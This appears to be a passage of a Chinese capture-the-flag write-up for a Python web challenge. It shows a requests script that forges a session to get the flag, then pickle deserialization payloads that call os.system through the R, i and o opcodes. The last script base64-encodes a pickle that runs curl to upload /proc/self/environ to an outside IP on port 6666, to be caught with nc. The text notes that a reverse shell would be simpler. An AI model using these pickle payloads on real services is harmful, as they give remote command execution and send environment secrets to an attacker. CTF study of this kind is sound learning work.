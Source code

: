 ```
data = {
    "name":"Cxlover"
}

requests.post(url=url+"login", data=data)
requests.get(url=url+"login",headers=headers1)
requests.get(url=url+"login",headers=headers2)
requests.get(url)           
ans = requests.get(url=url+"login",headers=headers3)
print(ans.text) 
```

伪造session成功后获取flag
![](img/c8d4dafbcabe7e0bbdf55f203e93df9b.png)

### 方法二

直接不使用R来进行rce
**R：**

```
b'''cos
system
(S'whoami'
tR.''' 
```

**i：**

```
b'''(S'whoami'
ios
system
.''' 
```

**o：**

```
b'''(cos
system
S'whoami'
o.''' 
```

我们这里使用curl请求，然后nc接收得到回显的内容，当然也可以反弹shell，更简单

```
import base64
data=b'''(S'curl -F "filename=@/proc/self/environ" 110.42.134.160:6666'
ios
system
.'''
print(base64.b64encode(data)) 
```
